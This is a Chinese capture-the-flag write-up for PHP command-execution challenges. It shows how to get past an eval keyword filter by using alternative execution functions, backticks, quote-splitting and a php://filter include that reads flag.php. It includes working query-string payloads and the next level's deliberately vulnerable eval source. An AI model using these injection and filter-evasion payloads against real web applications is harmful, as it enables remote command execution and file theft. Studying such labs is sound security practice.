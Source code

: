 在上一题的基础上增加了过滤。 `flag`、`system`、`php` 

但是我们依然可以用到其他函数进行代替。

```
system()
passthru()    # passthru — 执行外部程序并且显示原始输出
exec()        # exec — 执行一个外部程序  
shell_exec()  # shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

这里需要注意一下，只有system函数是有回显的，其他的函数可以通过echo等显示

```
?c=echo passthru("cat f*");
?c=echo `cat f*`;
```

或者

```
?c=echo "hello"; include($_GET['url']); ?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

题目wp:

```
echo `nl fl''ag.p''hp`;
```

## web31~过滤cat,空格

```
命令执行，需要严格的过滤
```

源码：

```php
<?php
    
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```
